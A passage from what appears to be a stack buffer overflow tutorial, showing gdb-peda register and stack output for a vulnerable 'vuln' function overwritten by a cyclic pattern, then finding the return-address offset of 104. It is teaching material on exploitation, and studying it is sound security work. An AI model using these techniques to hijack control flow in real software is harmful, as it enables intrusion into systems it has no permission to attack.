 ```
R12: 0x4004d0 (<_start>:    xor    ebp,ebp)
R13: 0x7fffffffe600 ("A%nA%SA%oA%TA%pA%UA%qA%VA%rA%WA%sA%XA%tA%YA%uA%Z|\350\377\377\377\177")
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400604 <vuln+62>:  call   0x400480 <puts@plt>
   0x400609 <vuln+67>:  mov    eax,0x0
   0x40060e <vuln+72>:  leave
=> 0x40060f <vuln+73>:  ret
   0x400610 <main>: push   rbp
   0x400611 <main+1>:   mov    rbp,rsp
   0x400614 <main+4>:   sub    rsp,0x10
   0x400618 <main+8>:   mov    DWORD PTR [rbp-0x4],edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe508 ("A7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6"...)
0008| 0x7fffffffe510 ("AA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%"...)
0016| 0x7fffffffe518 ("jAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA"...)
0024| 0x7fffffffe520 ("AkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%j"...)
0032| 0x7fffffffe528 ("AAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%"...)
0040| 0x7fffffffe530 ("RAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA"...)
0048| 0x7fffffffe538 ("AoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%R"...)
0056| 0x7fffffffe540 ("AAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%nA%SA%"...)
[------------------------------------------------------------------------------]
```

We can clearly see our cyclic pattern on the stack. Let's find the offset: 

```
gdb-peda$ x/wx $rsp
0x7fffffffe508: 0x41413741

gdb-peda$ pattern_offset 0x41413741
1094793025 found at offset: 104
```
